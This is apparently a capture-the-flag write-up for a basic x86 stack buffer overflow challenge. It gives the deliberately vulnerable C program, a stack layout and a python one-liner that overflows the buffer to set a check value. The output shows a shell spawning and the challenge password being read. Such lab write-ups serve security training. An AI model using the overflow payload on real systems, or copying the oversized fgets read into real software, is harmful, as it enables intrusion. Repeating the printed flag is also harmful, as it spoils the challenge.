# ELF x86 - Stack buffer overflow basic 1
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
According to the source code, the goal is to change the check variable to 0xdeadbeef.
In addition, the executable will print the values of check and buf.


Stack of this program will look like this:
```
   4 bytes     4 bytes           40 bytes
[    var    ][   check    ][          buf                          ]
               0x04030201
ebp                                                                esp
```
buf size is 40 bytes but the fget function get 45 bytes input. The values from bytes 40 will overflow and change the check variables. 
```
app-systeme-ch13@challenge02:~$ ls
Makefile  ch13  ch13.c
app-systeme-ch13@challenge02:~$ (python -c 'print("a"*40)+"\xef\xbe\xad\xde"' && cat -) | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
whoami
app-systeme-ch13-cracked
cat .passwd
1w4ntm0r3pr0np1s
```
*cat -* command to keeping the shell open
